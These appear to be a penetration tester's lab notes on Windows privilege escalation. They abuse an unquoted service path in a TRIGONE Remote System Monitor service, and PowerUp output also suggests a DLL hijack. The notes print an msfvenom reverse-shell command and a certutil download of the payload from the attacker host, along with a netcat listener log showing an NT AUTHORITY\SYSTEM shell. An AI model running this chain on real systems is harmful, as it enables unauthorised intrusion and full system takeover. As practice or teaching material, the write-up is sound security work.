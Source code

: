 ```shell
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\Bob.Martin\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\Bob.Martin\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\Bob.Martin\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'
```

- UNABLE TO RESTART THE SERVICE!, MAYBE CAN ABUSE BUT NEED TO RESTART SYSTEM
![[unquoted service path powershell.png]]

Going to try to abuse the unquoted service path and make a reverse shell named reverse.exe
```shell
# reverse shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.118 LPORT=7777 -f exe -o Remote.exe

# grabbed file
certutil.exe -urlcache -split -f "http://192.168.49.118:1337/Remote.exe"

```

- opened a Powershell prompt to check accesses 

Get-Acl -Path "C:\Program Files (x86)\TRIGONE\Remote System Monitor Server\RemoteSystemMonitorService.exe"

- ONLY ALLOWS SYSTEM TO OWN

![[full path owned by system.png]]


Get-Acl -Path "C:\Program Files (x86)\TRIGONE"


![[Trigone full control.png]]

- going to restart system so when service reboots it activates my shell
- restarted system and lost original shell
![[system restart.png]]


- listener setup
```shell
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 7777                       
listening on [any] 7777 ...
connect to [192.168.49.118] from (UNKNOWN) [192.168.118.101] 59582
Microsoft Windows [Version 10.0.19044.1706]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```
